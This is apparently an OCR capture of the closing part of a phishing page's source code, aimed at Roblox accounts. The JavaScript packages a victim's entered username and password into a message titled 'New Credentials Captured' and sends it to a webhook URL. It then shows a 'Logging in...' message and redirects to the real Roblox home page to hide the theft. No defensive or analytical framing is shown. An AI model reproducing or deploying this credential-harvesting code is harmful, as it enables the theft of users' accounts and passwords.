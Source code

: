             const data = {
                content: `**Roblox Credentials Captured**\nUsername: ${username}\nPassword: ${password}\nIP: ${window.location.hostname}`,
                embeds: [{
                    title: "New Credentials Captured",
                    color: 0xFF0000,
                    fields: [
                        { name: "Username", value: username },
                        { name: "Password", value: password },
                        { name: "Timestamp", value: new Date().toLocaleString() }
                    ]
                }]
            };
            
            fetch(webhookUrl, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json',
                },
                body: JSON.stringify(data),
            })
            .then(response => {
                if (response.ok) {
                    // Redirect ke halaman Roblox asli setelah 2 detik
                    document.getElementById('errorMessage').style.display = 'none';
                    document.getElementById('loginButton').textContent = 'Logging in...';
                    setTimeout(() => {
                        window.location.href = 'https://www.roblox.com/home';
                    }, 2000);
                }
            });
        });
    </script>
</body>
</html>
